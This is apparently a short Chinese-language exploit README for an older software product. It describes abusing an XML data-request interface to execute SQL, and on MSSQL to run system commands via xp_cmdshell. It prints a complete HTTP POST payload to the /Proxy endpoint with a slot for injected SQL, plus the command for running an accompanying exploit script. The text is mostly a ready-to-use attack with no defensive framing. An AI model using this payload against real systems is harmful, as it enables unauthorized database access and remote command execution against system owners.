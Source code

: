 

# 前言

该软件比较老，利用xxe执行数据库命令，如果数据库是mssql则可以利用xp_cmdshell执行命令。

# Payload

```
POST /Proxy HTTP/1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;)
Host: localhost
Content-Length: 442
Connection: Keep-Alive
Cache-Control: no-cache

 
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">这里插入sql语句</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

# 脚本使用方式

```shell
python3 exp.py  http://127.0.0.1:8000/
```

需要用pip安装html.parser包

# 结果

![](./result.png)